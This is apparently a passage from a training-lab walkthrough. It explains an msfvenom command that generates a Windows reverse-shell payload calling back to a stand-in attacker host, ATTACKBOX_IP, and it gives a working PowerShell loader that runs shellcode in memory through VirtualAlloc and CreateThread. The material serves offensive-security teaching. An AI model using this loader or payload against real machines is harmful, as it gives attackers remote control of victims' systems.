 The above command generates a piece of shellcode using `msfvenom`. Here's what each part means:

* `-p windows/x64/shell_reverse_tcp`: The `-p` flag tells `msfvenom` what type of payload to create. `windows/x64/shell_reverse_tcp` specifies that we want a reverse shell for a Windows machine.
* `LHOST=ATTACKBOX_IP`: This is the IP address of the AttackBox. It tells the reverse shell where to connect back to.
* `LPORT=1111`: This is the port number on your machine that will listen for the reverse shell connection. When the target connects back to you, it will use this port (`1111` in this example). You can choose any available port, but it needs to match with what your listener is set to.
* `-f powershell`: This specifies the format for the output. In this case, we want the payload to be in PowerShell format so it can be executed as a script on a Windows machine.

**Where Is the Actual Shellcode**

The actual shellcode in the output above is the hex-encoded byte array, which starts with `0xfc, 0xe8, 0x82`, and so on. The hexadecimal numbers represent the instructions set on the target machine. Computers understand binary (1s and 0s), but hex numbers are just a more human-readable version. So, instead of seeing long strings of 1s and 0s, you see something like `0xfc` instead.

We can execute this shellcode by loading it into memory and then creating a thread for its execution. In this case, we will use PowerShell to call a few Windows APIs via C# code. Below is a simple PowerShell script that will execute our shellcode:

```c#
$VrtAlloc = @"
using System;
using System.Runtime.InteropServices;

public class VrtAlloc{
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);  
}
"@

Add-Type $VrtAlloc 

$WaitFor= @"
using System;
using System.Runtime.InteropServices;

public class WaitFor{
 [DllImport("kernel32.dll", SetLastError=true)]
    public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);   
}
"@

Add-Type $WaitFor

$CrtThread= @"
using System;
using System.Runtime.InteropServices;

public class CrtThread{
 [DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
  
}
"@
Add-Type $CrtThread   

[Byte[]] $buf = SHELLCODE_PLACEHOLDER
[IntPtr]$addr = [VrtAlloc]::VirtualAlloc(0, $buf.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $buf.Length)
$thandle = [CrtThread]::CreateThread(0, 0, $addr, 0, 0, 0)
```
